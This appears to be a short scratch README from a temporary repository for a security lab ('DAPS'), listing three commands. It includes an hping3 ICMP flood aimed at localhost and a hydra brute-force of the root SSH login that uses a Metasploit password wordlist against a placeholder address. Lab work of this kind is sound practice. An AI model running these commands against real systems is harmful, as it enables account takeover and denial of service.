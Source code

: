 # tmp
temp repository for DAPS

<p><code>sudo hping3 --icmp --flood -c 500 127.0.0.1</p>


<p><code>sudo service ssh start</code></p><p><code>sudo hydra -l root -P /usr/share/wordlists/metasplpoit/unix_passwords.txt ip_address ssh -t 4 -V</code></p>
